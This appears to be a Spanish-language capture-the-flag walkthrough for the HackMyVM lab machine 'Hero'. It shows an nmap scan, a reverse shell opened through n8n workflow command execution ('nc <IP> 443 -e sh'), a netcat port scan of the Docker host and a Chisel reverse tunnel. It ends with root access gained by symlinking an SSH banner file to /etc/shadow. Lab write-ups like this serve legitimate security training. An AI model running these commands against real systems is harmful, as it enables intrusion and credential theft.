





Máquina **Hero** de la plataforma [HackMyVM](https://hackmyvm.eu)

Autor: Sml

Dificultad: Medio



# Reconocimiento

Comenzamos con un escaneo de `nmap` para ver los puertos abiertos de la máquina:

```css
nmap -p- --open --min-rate 5000 -Pn -n -vvv -sSVC -oN escaneo.txt 192.168.56.128
```

```ruby
# Nmap 7.95 scan initiated Sun Feb  9 20:52:47 2025 as: nmap -p- --open --min-rate 5000 -Pn -n -vvv -sSVC -oN escaneo.txt 192.168.56.128
Nmap scan report for 192.168.56.128
Host is up, received arp-response (0.0011s latency).
Scanned at 2025-02-09 20:52:48 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
5678/tcp open  rrac?   syn-ack ttl 63
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=86400
|     Last-Modified: Sun, 09 Feb 2025 23:49:15 GMT
|     ETag: W/"7b7-194ed1e052f"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 1975
|     Vary: Accept-Encoding
|     Date: Sun, 09 Feb 2025 23:53:00 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <script type="module" crossorigin src="/assets/polyfills-DfOJfMlf.js"></script>
|     <meta charset="utf-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="viewport" content="width=device-width,initial-scale=1.0" />
|     <link rel="icon" href="/favicon.ico" />
|     <style>@media (prefers-color-scheme: dark) { body { background-color: rgb(45, 46, 46) } }</style>
|     <script type="text/javascript">
|     window.BASE_PATH = '/';
|     window.REST_ENDPOINT = 'rest';
|     </script>
|     <script src="/rest/sentry.js"></script>
|     <script>!function(t,e){var o,n,
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Vary: Accept-Encoding
|     Date: Sun, 09 Feb 2025 23:53:00 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5678-TCP:V=7.95%I=7%D=2/9%Time=67A93FDF%P=x86_64-pc-linux-gnu%r(Get
SF:Request,8DC,"HTTP/1\.1\x20200\x20OK\r\nAccept-Ranges:\x20bytes\r\nCache
SF:-Control:\x20public,\x20max-age=86400\r\nLast-Modified:\x20Sun,\x2009\x
SF:20Feb\x202025\x2023:49:15\x20GMT\r\nETag:\x20W/\"7b7-194ed1e052f\"\r\nC
SF:ontent-Type:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\x201975\
SF:r\nVary:\x20Accept-Encoding\r\nDate:\x20Sun,\x2009\x20Feb\x202025\x2023
SF::53:00\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n\t<head>\n\t\t<script\x20type=\"module\"\x20crossorigi
SF:n\x20src=\"/assets/polyfills-DfOJfMlf\.js\"></script>\n\n\t\t<meta\x20c
SF:harset=\"utf-8\"\x20/>\n\t\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20
SF:content=\"IE=edge\"\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content=\"
SF:width=device-width,initial-scale=1\.0\"\x20/>\n\t\t<link\x20rel=\"icon\
SF:"\x20href=\"/favicon\.ico\"\x20/>\n\t\t<style>@media\x20\(prefers-color
SF:-scheme:\x20dark\)\x20{\x20body\x20{\x20background-color:\x20rgb\(45,\x
SF:2046,\x2046\)\x20}\x20}</style>\n\t\t<script\x20type=\"text/javascript\
SF:">\n\t\t\twindow\.BASE_PATH\x20=\x20'/';\n\t\t\twindow\.REST_ENDPOINT\x
SF:20=\x20'rest';\n\t\t</script>\n\t\t<script\x20src=\"/rest/sentry\.js\">
SF:</script>\n\t\t<script>!function\(t,e\){var\x20o,n,")%r(HTTPOptions,183
SF:,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20defau
SF:lt-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:
SF:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nVary:\x20A
SF:ccept-Encoding\r\nDate:\x20Sun,\x2009\x20Feb\x202025\x2023:53:00\x20GMT
SF:\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\
SF:">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\
SF:n<body>\n<pre>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSP
SF:Request,183,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Polic
SF:y:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\
SF:nVary:\x20Accept-Encoding\r\nDate:\x20Sun,\x2009\x20Feb\x202025\x2023:5
SF:3:00\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x2
SF:0lang=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title
SF:>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>
SF:\n");
MAC Address: 08:00:27:C5:5E:DE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  9 20:53:03 2025 -- 1 IP address (1 host up) scanned in 16.03 seconds
```

Solo vemos 2 puertos abiertos:

•`Puerto 80: nginx`

•`Puerto 5678: http ???`

#### Puerto 80

En el puerto 80 podemos ver que hay una clave privada de ssh, por lo cual podemos pensar 2 cosas:

· Port knocking

· No tenemos colectividad directa con el puerto 22

en caso de ser la primera, necesitaríamos un conjunto de puertos a los que hacer knocking y si es la segunda descartamos directamente la clave por ahora. 

#### Puerto 5678

En este puerto vemos algo mas interesante ya que tenemos un panel de registro en una web con título "n8n", y si esto lo buscamos veremos que es un software de automatización o algo parecido.

Nos registramos y vemos lo siguiente:



presiono donde dice "Start from scratch" y luego de revisar un poco, veo que se puede ejecutar un comando:



# Intrusión

Viendo que existe la opción, preparo la escucha con `netcat`:

```css
nc -nlvp 443
```

y envío una reverse shell escribiendo el siguiente comando en la web:

```css
nc <IP> 443 -e sh
```

luego, presionamos donde dice "test workflow" y recibiremos la shell.

# Escalada De Privilegios

#### Port Search On The Host

Luego de probar un buen rato, pruebo a buscar puertos abiertos en el host pero desde el docker y a la ip `172.17.0.1` con este script:

```sh
#!/bin/sh

seq 1 100 > ports


while read -r number; do
  if timeout 0.1 sh -c "nc 172.17.0.1 $number" &>/dev/null; then
    echo "Puerto abierto encontrado: 172.17.0.1:$number"
  fi
done < "./ports"
rm ./ports
```

lo paso a la máquina víctima y al ejecutarlo veo lo siguiente:

```css
./ports.sh
Puerto abierto encontrado: 172.17.0.1:22
```

lo que significa que ahí está el ssh que no encontrábamos.

#### Tunnel With Chisel

Nos descargamos [Chisel](https://github.com/jpillora/chisel), lo pasamos a la máquina y entablamos un tunel de la siguiente manera:

```css
# Máquina atacante
./chisel server --reverse -p 7777
```

```css
# Máquina víctima
./chisel client <IP>:7777 R:socks
```

Una vez establecido el túnel, configuramos `proxychains` para que funcione con el proxy de chisel (probablemente solo sea cambiar la última línea del archivo `/etc/proxychains.conf` por `socks5 127.0.0.1 1080`) y descargamos la clave privada que encontramos en el puerto 80:

```css
wget <IP> && mv index.html id_rsa
```

ahora nos tenemos que conectar pero no tenemos usuario, pero al probar en conectarnos de la manera que sea nos dice lo siguiente:

```css
proxychains ssh -i id_rsa test@172.17.0.1
```

```css
shawa was here.
```

por lo que ya tenemos un posible usuario: `shawa`

y ahora si nos conectamos a la máquina por ssh:

```css
proxychains ssh -i id_rsa shawa@172.17.0.1
```

### User shawa

Siendo el usuario shawa, podemos ver un archivo en `/opt` llamado `banner.txt`, este pertenece a root y todos los usuarios pueden leerlo y escribirlo. Si lo leemos vemos que dice "shawa was here.", lo que significa que es el mensaje que muestra ssh al conectarnos. Sabiendo esto, creamos un enlace simbólico al `/etc/shadow` en el archivo banner.txt:

```css
ln -sf /etc/shadow /opt/banner.txt
```

nos volvemos a conectar con ssh y podemos visualizar el archivo shadow:



además podemos ver un comentario en la primer línea:

```css
#Imthepassthaty0uwant!
```

y si probamos la contraseña `Imthepassthaty0uwant!` con el usuario root veremos que podemos escalar a este.

### User Root



Gracias por leer ;)